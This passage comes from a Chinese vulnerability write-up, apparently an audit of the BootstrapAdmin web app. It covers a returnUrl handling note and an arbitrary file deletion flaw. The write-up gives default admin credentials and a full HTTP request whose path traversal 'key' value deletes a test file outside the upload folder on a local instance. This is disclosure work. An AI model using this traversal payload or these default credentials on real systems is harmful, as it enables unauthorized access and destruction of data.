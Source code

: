 这里的 returnUrl 是通过Request Query获取的，也就是GET方式请求获取Query数据。  
`Request.Query[CookieAuthenticationDefaults.ReturnUrlParameter].ToString();`  
对应的`cshtml`文件  
`BootstrapAdmin\src\mvc\admin\Bootstrap.Admin\Views\Shared\Error.cshtml`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-502bdcb400d3b44b733499fdc4aa8f41e47bffb0.png)

> `@Url.Content` 方法返回一个应用程序中的虚拟路径的绝对 URL。它可以用于生成包含应用程序根路径的 URL，这对于在视图中使用相对路径引用 CSS、JavaScript 和图像等文件非常有用。  
> 在 Razor 视图中，默认情况下会进行 HTML 实体编码，以避免跨站点脚本攻击。这意味着在模型属性的值插入到 HTML 中时，会自动将特殊字符（如 &lt;, &gt;, &amp; 等）转换成对应的 HTML 实体编码。

【后台】头像任意文件删除
------------

权限：后台普通用户权限

### 漏洞利用

为了测试，我现在目录`BootstrapAdmin\src`下新建命名为`don't_delete_me.txt`的文件。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-b2ec04f44c098dcb5f6affefab721f4e273b552a.png)

使用管理员默认账户登录后台：Admin/123789  
访问：`http://localhost:50852/Admin/Profiles`  
在左侧栏找到个人中心，进入后找到修改头像处。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-3a685a5d7729b71cd9f0121c5aa7f51a2f8ca90f.png)

任意上传一张图像，然后点击删除。抓包修改包的内容。  
头像存储的相对路径是`BootstrapAdmin\src\mvc\admin\Bootstrap.Admin\wwwroot\images\uploader`  
将 key 修改成`\..\..\..\..\..\..\don't_delete_me.txt`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-b9a84b277679fdd8eaa6edabb4b89d1507391d00.png)

请求包：

```php
POST http://localhost:50852/api/Profiles/Delete HTTP/1.1
Host: localhost:50852
Content-Length: 42
sec-ch-ua: "Chromium";v="89", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Profiles
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8PEsgr_mSMxFurYJD90kTRdDutnyswhgQAajLp51T2b4dYv1uTICnGVL5VbVaPJDUc3r70GoHtQB2Vj7oYm-nLhDCG9W_mj5-8IB2FhB271EWYmMSylfSZlNpTFa3Bjf2r_UhJSfp1Bd5BPtXwzV6_I; .AspNetCore.Cookies=CfDJ8PEsgr_mSMxFurYJD90kTRfdrk0fKJRgNBBGJh87RD57SJijn1hT9IhdiA0zf0iJmcS8FhwRVuJ0vRc_TtyVbrYpbGm_YrC8ZzLRK9P8u4AZImRchxPy9WBPUhMMx1p9xex3eUomUXRKzT5yx12qpn93BDSxLApgseVLQLucY5kAtph1GMb1V17dFqbe0ieA99eoYMLFYT_KBcncZFdFE7cAUAJWj0msoM8Uwb9aRSXaVdqklQvxohYvXa0zEFcUSzKpbJbYWIGYDMzW3WJvehlx6i8nDEneQaHVeR801qSl
Connection: close

key=\..\..\..\..\..\..\don't_delete_me.txt
```

